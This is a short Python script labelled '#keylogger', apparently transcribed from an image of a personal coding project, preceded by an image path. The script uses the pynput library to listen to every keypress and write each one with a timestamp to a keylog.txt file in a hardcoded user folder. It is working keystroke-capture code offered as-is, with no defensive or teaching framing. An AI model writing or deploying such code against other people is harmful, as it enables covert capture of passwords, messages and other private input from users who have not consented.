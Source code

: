 #keylogger
import pynput
from pynput.keyboard import Key, Listener
import logging

log_dir=r"C:\Users\mohit\OneDrive\Documents\Python\Keylogger"
logging.basicConfig(filename= (log_dir + r"/keylog.txt"), level=logging.DEBUG ,format='%(asctime)s: %(message)s')
                    
def on_press(key):
       logging.info(str(key))
       
with Listener(on_press=on_press) as Listener:
    Listener.join()               

